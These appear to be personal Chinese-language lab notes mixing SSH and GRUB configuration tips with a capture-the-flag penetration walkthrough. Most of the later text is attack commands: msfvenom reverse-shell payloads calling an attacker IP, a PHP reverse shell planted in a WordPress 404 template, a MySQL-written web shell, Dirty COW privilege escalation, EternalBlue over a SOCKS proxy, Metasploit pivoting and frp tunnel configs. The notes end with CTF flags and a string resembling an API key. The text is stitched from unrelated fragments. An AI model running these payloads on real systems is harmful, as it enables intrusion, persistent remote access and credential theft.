 use ip addr 192.168.1.155/24 dev eth1
ifconfig eth1 up

16.04 中包含的 OpenSSH 版本禁用 ssh-dss。有一个包含此问题的遗留信息的简洁页面：[http://www.openssh.com/legacy.html](http://www.openssh.com/legacy.html)

添加网卡：[blog.51cto.com/506554897/1742070](https://blog.51cto.com/506554897/1742070)
service network restart

简而言之，您应该将选项添加`-oHostKeyAlgorithms=+ssh-dss`到 SSH 命令中：

```
ssh -oHostKeyAlgorithms=+ssh-dss root@192.168.8.109
```

---

您还可以在您的文件中添加主机模式，`~/.ssh/config`这样您就不必每次都指定密钥算法：

```
Host nas
  HostName 192.168.8.109
  HostKeyAlgorithms=+ssh-dss
```

这样做的另一个好处是您无需键入 IP 地址。相反，`ssh`将识别主机`nas`并知道连接到哪里。当然，您可以使用任何其他名称代替。

解决办法是`ssh`命令指定算法:

```
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa  user@host -p 2222
```

上面比较麻烦, 可以修改ssh配置文件 _~/.ssh/config_, 对于无法成功连接的host, 增加配置项:

~/.ssh/config

```
HostKeyAlgorithms +ssh-rsaPubkeyAcceptedKeyTypes +ssh-rsa
```

完整配置如下:

~/.ssh/config

```
Host ssh.alanwei.com  HostName ssh.alanwei.com  User alan  Port 22  HostKeyAlgorithms +ssh-rsa  PubkeyAcceptedKeyTypes +ssh-rsa
```
[linux 6.6用户名密码,CentOS6.6设置grub密码的方法-CSDN博客](https://blog.csdn.net/weixin_28797725/article/details/116629461)
编辑grub配置文件#vi /etc/grub.conf
grub-crypt --md5

使用命令设置md5加密密码，复制生成的md5码
打开之后在hiddenmenu下一行输入，粘贴生成的md5码
password --md5 $1$Vk/Pvw4.$i8b0feQIqez/CRInfnhcq0
```C
[root@localhost~]# grub-crypt --md5
Password:
Retype password:

$1$Vk/Pvw4.$i8b0feQIqez/CRInfnhcq0
```


```C
phpMyAdmin-4.0.0-all-languages.zip
wordpress-5.0.3-zh_CN.zip
```

# 做题
在wordpress数据库中找到wp_users表
查询： select * from 'wp_users'

update wp_users set user_pass=md5("52ctfhahaha") where user_login='eveng';

利用MSF生成反弹shell :  没有用
msfvenom -p php/meterpreter/reverse_tcp LHOST=Kali的IPLPORT=4444 -o Desktop/shell.php

利用Kali Linux自带反弹shell

root@kali:~# cat /usr/share/webshells/php/php-reverse-shell.php
复制此shell代码到404模板，修改IP为Kali地址，端口为4444

![[Pasted image 20240402153412.png]]

使用netcat，监听4444端口:nc -nlvp 4444



浏览器访问不存在的页面，触发404文件执行，例如http://靶机ip/?p=666

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=8000 -f elf > shell_8000.elf
反弹shell
攻击机运行msfconsole，使用exploit/multi/handler模块，set payload linux/x86/meterpreter/reverse_tcp跟生成木马时用的payload一样。LPORT设置成木马将要连接的端口，运行后会在攻击机上监听一个端口，等待木马链接。

```C
在meterpreter会话内配置
run get_local_subnets
run autoroute -p
run autoroute -s 192.168.194.0/24

在msf内配置
route print
route add 192.168.194.0 255.255.255.0 1
```

```C
searchsploit dirty
locate linux/local/40847.cpp #定位40847.cpp的位置
cp /usr/share/exploitdb/exploits/linux/local/40847.cpp /tmp #将40847.cpp复制到/tmp目录下
```
下载到Kali桌面并进入目录，使用gcc编译gcc -pthread dirty.c -o dirty -lcrypt

设置为执行权限

chmod +x dirty

使用python开启http服务器

Python-m SimpleHTTPServer 80

执行dirty完成提权，
获得登录信息. ./dirty new password (任意密码)

```C
方法2(权限不够没法弄)
[blog.51cto.com/sunjikui/5994467](https://blog.51cto.com/sunjikui/5994467)
show variables like "%general_log%";
set global general_log='on';
set global general_log_file="//var//www//html//shell.php";
select "<?php system($_REQUEST[cmd]);?>"

```


auxiliary/server/socks_proxy-------------------------set SRVHOST  192.168.44.128

vim /etc/proxychains4.conf
proxychains nmap --script=vuln -sT -Pn 192.168.194.133

use windows/smb/ms17_010_eternalblue
setg Proxies socks5:192.168.44.128:1080
set ReverseAllowProxy true

psexec这个模块默认是反向连接的，我们使用了代理，要使用正向连接set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.194.133设置目标

python -c 'import pty; pty.spawn("/bin/bash")'

[内网渗透-利用frp代理流量后msf攻击内网永恒之蓝漏洞（ms17-010）-永恒之蓝利用失败的原因\_frp漏洞-CSDN博客](https://blog.csdn.net/weixin_42109829/article/details/122554815)

攻击机
```C
[common]
bind_addr = 0.0.0.0        # 设置监听的ip ，一般是你的外网ip，0.0.0.0表示都监听
bind_port = 8000           # 监听的端口，等待客户端连接 
dashboard_addr = 0.0.0.0   # frp网站服务器的ip，可以访问登录
dashboard_port = 7600       # frp网站服务器的端口，可以访问登录
dashboard_user = root       # frp网站服务账号
dashboard_pwd  = 123456    # frp网站服务密码
token = 1q2w3e             # 客户端的连接密码
heartbeat_timeout = 90     # 连接超时的时间
max_pool_count = 5		   # 允许连接的客户端数量
```
靶机

```C
[common]
tls_enable = true
server_addr = *.*.*.*         # vps 服务器地址 
server_port = 8000          # vps服务器监听地址
token = 1q2w3e              # 设置的密码 ，设置完流量加密，不好解。      
pool_count = 5            # 将提前建立连接，默认值为 0
protocol = tcp              # 通信方式
health_check_type = tcp    # frpc 将连接本地服务的端口以检测其健康状态
health_check_interval_s = 100   # 健康检查时间间隔
[proxies]
remote_port = 6000  # 把流量转发到vps 那个端口 ，这个是重点等下会用到
plugin = socks5        #plugin 表示为插件 
use_encryption = true   
use_compression = true
```

50 45 --> 51 51
55 50 58 --> 51 51 51

第一套
flag1{b31036cc-75a9-4fcc-9259-2fd355585d69} index.php
          
flag3{e163fcd1-4326-4dc9-baa4-d315ee57e604} 姓名
           
flag5{7a1cc285-65ff-4b51-824d-a831ba520f7c} cat /flag

flag7{26c81534-cf66-417c-97f0-b026a4e8c457} Game_Of_Life

flag9{e306552d-3573-4dc8-986f-fcd93f921e9b} systemview 13

give_the_Shykey:123456789012345678901234
flag{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} HeyChat